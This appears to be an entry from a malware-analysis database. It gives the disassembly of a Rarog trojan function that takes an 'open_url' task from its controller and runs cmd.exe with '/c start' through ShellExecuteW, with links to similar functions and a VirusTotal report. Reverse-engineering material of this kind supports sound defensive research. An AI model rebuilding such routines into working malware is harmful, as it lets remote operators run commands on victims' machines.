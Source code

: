 mov ecx,esp
mov dword[ebp-0x488],esp
push 0xf
pop esi
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Rarog___New_task__type:_open_url
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
lea eax,[ebp-0x1dc]
push str._c_start_
push eax
lea edi,[ebp-0x230]
call fcn.00408c43
pop ecx
pop ecx
mov byte[ebp-4],0x74
cmp dword[ebp-0x1c8],0x10
mov eax,dword[ebp-0x1dc]
jae 0x4068ea
lea eax,[ebp-0x1dc]
push eax
lea ecx,[ebp-0x24c]
mov dword[ebp-0x238],esi
mov dword[ebp-0x23c],ebx
mov byte[ebp-0x24c],bl
call fcn.00401caf
lea eax,[ebp-0x268]
push eax
lea ecx,[ebp-0x24c]
mov byte[ebp-4],0x75
call fcn.00409f8f
cmp dword[eax+0x14],8
jb 0x406926
mov eax,dword[eax]
push ebx
push ebx
push eax
push str.C:WindowsSystem32cmd.exe
push ebx
push ebx
call dword[sym.imp.SHELL32.dll_ShellExecuteW]
push 1
xor edi,edi
lea esi,[ebp-0x268]
call fcn.00401e8b
push ebx
push 1
lea ecx,[ebp-0x24c]
call fcn.00401cd0
push ebx
push 1
lea ecx,[ebp-0x1dc]
call fcn.00401cd0
push 0xea60
call dword[sym.imp.KERNEL32.dll_Sleep]
xor esi,esi
push ebx
inc esi
push esi
lea ecx,[ebp-0x230]
call fcn.00401cd0
push ebx

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6